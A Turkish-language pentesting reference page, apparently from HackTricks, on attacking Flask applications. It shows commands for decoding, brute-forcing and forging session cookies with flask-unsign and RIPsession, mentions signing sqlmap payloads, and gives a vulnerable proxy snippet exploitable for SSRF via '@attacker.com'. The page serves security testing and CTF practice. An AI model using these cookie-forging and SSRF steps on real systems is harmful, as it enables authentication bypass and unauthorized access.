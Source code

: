 # Flask

{{#include ../../banners/hacktricks-training.md}}

**Muhtemelen bir CTF oynuyorsanız, bir Flask uygulaması** [**SSTI**](../../pentesting-web/ssti-server-side-template-injection/)** ile ilgili olacaktır.**

## Cookies

Varsayılan çerez oturum adı **`session`**.

### Decoder

Çevrimiçi Flask çerezleri çözücü: [https://www.kirsle.net/wizards/flask-session.cgi](https://www.kirsle.net/wizards/flask-session.cgi)

#### Manual

Çerezin ilk kısmını ilk noktaya kadar alın ve Base64 ile çözün.
```bash
echo "ImhlbGxvIg" | base64 -d
```
Çerez ayrıca bir şifre kullanılarak imzalanmıştır.

### **Flask-Unsign**

Bir Flask uygulamasının oturum çerezlerini gizli anahtarları tahmin ederek almak, çözmek, kaba kuvvetle denemek ve oluşturmak için kullanılan komut satırı aracı.

{{#ref}}
https://pypi.org/project/flask-unsign/
{{#endref}}
```bash
pip3 install flask-unsign
```
#### **Çerezleri Çöz**
```bash
flask-unsign --decode --cookie 'eyJsb2dnZWRfaW4iOmZhbHNlfQ.XDuWxQ.E2Pyb6x3w-NODuflHoGnZOEpbH8'
```
#### **Kaba Kuvvet**
```bash
flask-unsign --wordlist /usr/share/wordlists/rockyou.txt --unsign --cookie '<cookie>' --no-literal-eval
```
#### **İmza**
```bash
flask-unsign --sign --cookie "{'logged_in': True}" --secret 'CHANGEME'
```
#### Eski sürümleri kullanarak imzalama
```bash
flask-unsign --sign --cookie "{'logged_in': True}" --secret 'CHANGEME' --legacy
```
### **RIPsession**

Cookie'leri flask-unsign ile oluşturulmuş sitelere brute-force saldırısı yapmak için komut satırı aracı.

{{#ref}}
https://github.com/Tagvi/ripsession
{{#endref}}
```bash
ripsession -u 10.10.11.100 -c "{'logged_in': True, 'username': 'changeMe'}" -s password123 -f "user doesn't exist" -w wordlist.txt
```
### SQLi in Flask session cookie with SQLmap

[**Bu örnek**](../../pentesting-web/sql-injection/sqlmap/index.html#eval) sqlmap `eval` seçeneğini kullanarak **flask için sqlmap yüklerini otomatik olarak imzalamak** için bilinen bir gizli anahtar kullanır.

## Flask Proxy to SSRF

[**Bu yazıda**](https://rafa.hashnode.dev/exploiting-http-parsers-inconsistencies) Flask'ın "@" karakteri ile başlayan bir isteğe nasıl izin verdiği açıklanmaktadır:
```http
GET @/ HTTP/1.1
Host: target.com
Connection: close
```
Aşağıdaki senaryoda:
```python
from flask import Flask
from requests import get

app = Flask('__main__')
SITE_NAME = 'https://google.com/'

@app.route('/', defaults={'path': ''})
@app.route('/<path:path>')
def proxy(path):
return get(f'{SITE_NAME}{path}').content

app.run(host='0.0.0.0', port=8080)
```
Şunu eklemeye izin verebilir: "@attacker.com" gibi bir şey, **SSRF** oluşturmak için.

{{#include ../../banners/hacktricks-training.md}}
